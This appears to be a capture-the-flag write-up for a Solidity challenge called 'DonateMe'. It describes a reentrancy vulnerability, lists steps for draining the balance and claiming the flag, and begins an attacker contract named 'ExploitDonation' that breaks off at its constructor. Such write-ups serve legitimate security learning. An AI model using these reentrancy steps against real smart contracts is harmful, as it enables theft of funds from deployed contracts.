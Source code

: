 ## DonateMe

![Donate more](images/donate-more.webp)  

A basic reentrancy vulnerability. Here is the evil contract below:

1. Send 0.0001 ether to trigger the reentrancy loop.
2. Stop the loop after the balance gets to 30.
3. Send the token via `getFlag`
   > You can use ethers.utils.formatBytes32String(TOKEN) to get the right format to pass.
4. `yes` and get the flag.

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.7;    

interface VictimContract { 
    function newAccount()  external payable;

    function donateOnce()  external;

    function getBalance() external view returns (uint256 donatorBalance) ;
    function getFlag(bytes32 _token) external ;
}

contract ExploitDonation { 
    address public victimAddress;
    VictimContract victimContract; 

    constructor(address _victimAddress){
```